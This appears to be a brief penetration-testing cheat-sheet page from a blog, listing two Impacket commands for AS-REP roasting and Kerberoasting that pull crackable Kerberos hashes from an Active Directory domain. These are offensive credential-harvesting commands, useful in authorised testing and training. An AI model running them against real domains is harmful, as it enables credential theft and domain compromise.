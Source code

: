 [back to blog](../blog.md)

# ASREPROAST

```
impacket-GetNPUsers test.com/user:'Password!' -usersfile domainusers.txt -format hashcat -outputfile hashes.asreproast -dc-ip IP 
```

# kerberoasting

```
impacket-GetUserSPNs test.com/test:'Password!' -dc-ip IP -request
```

[back to blog](../blog.md)